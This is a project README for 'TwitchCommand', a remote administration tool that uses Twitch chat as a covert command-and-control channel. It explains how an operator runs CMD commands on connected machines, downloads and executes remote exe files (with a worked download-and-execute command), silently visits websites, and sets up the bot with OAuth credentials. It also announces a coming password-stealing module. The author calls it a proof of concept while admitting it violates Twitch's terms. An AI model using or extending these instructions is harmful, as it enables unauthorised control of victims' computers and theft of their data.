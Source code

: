 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands. Inspired by the [Slackor](https://github.com/Coalfire-Research/Slackor) project. Make sure to check it out.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC.

`visit`  Silently visits a website. Structured as `visit link`

### Screen currently does not work. I'm fixing it now.

# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action true`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.
- True is just a placeholder value as I was too lazy to scrub \r\n off the final value. You can write anything.

An example cmd command would be:

`!act all cmd start. true`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe true`

It currently only supports exe files.

# Creating the program.
### Coming soon: a builder.
Making the program is quite simple. 
- Change the NICK value on line 12 to your Twitch username.
- Change the PASS value on line 13 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 14 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- Change CLIENT_ID value on line 22 to an Imgur api client id. This is only necessary if you want to use the `screen` command.

# Upcoming features
- More modules (password recovery coming soon.)
- Download & execute supporting all file types.
- Removing the requirement for 'true' in commands (proper scrubbing.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
